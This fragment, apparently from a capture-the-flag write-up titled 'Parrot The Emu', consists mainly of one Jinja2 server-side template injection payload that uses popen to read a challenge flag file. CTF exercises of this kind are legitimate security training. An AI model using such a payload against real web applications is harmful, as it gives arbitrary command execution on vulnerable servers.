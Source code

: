 Parrot The Emu
============

{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}